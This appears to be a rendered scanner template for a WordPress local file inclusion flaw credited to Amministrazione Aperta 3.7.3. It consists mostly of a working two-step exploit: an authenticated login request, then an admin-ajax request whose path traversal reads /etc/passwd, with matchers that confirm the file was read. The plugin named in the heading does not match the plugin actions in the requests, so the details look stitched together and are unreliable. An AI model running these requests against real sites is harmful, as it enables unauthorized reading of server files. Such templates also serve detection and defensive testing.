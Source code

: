 ## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
POST /wp-admin/admin-ajax.php?action=wprss_fetch_items_row_action HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=health-check-view-file-diff&file=../../../../../../etc/passwd

```

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---

# WordPress Amministrazione Aperta 3.7.3 - Local File Inclusion

## Description

- WordPress Amministrazione Aperta 3.7.3 is vulnerable to local file inclusion.
- severity - high
- tags - wp-plugin,lfi,wp,edb,wordpress
